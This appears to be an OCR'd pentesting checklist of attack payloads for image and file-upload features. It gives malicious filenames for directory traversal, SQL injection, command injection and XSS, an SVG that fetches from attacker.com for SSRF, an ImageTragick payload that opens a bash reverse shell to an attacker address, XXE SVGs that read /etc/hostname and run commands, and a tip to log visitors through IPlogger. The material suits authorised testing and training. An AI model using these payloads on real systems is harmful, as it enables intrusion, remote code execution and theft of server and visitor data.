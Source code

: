         - - - -
      
    - # Vulnerabilities
        - [ ]  Directory Traversal
            - Set filename `../../etc/passwd/logo.png`
            - Set filename `../../../logo.png` as it might changed the website logo.
        - [ ]  SQL Injection
            - Set filename `'sleep(10).jpg`.
            - Set filename `sleep(10)-- -.jpg`.
        - [ ]  Command Injection
            - Set filename `; sleep 10;`
        - [ ]  SSRF
            - Abusing the "Upload from URL", if this image is going to be saved in some public site, you could also indicate a URL from [IPlogger](https://iplogger.org/invisible/) and steal information of every visitor.
            - SSRF Through `.svg` file.

            ```php
            <?xml version="1.0" encoding="UTF-8" standalone="no"?><svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="200" height="200"><image height="200" width="200" xlink:href="https://attacker.com/picture.jpg" /></svg>
            ```

        - [ ]  ImageTragic

            ```
            push graphic-context
            viewbox 0 0 640 480
            fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
            pop graphic-context
            ```

        - [ ]  XXE
            - Upload using `.svg` file

            ```xml
            <?xml version="1.0" standalone="yes"?>
            <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
            <svg width="500px" height="500px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
               <text font-size="40" x="0" y="16">&xxe;</text>
            </svg>
            ```

            ```xml
            <svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
                <image xlink:href="expect://ls"></image>
            </svg>
            ```
            [https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload)
            - Using excel file
        - [ ]  XSS
            - Set file name `filename="svg onload=alert(document.domain)>"` , `filename="58832_300x300.jpg<svg onload=confirm()>"`
            - Upload using `.gif` file
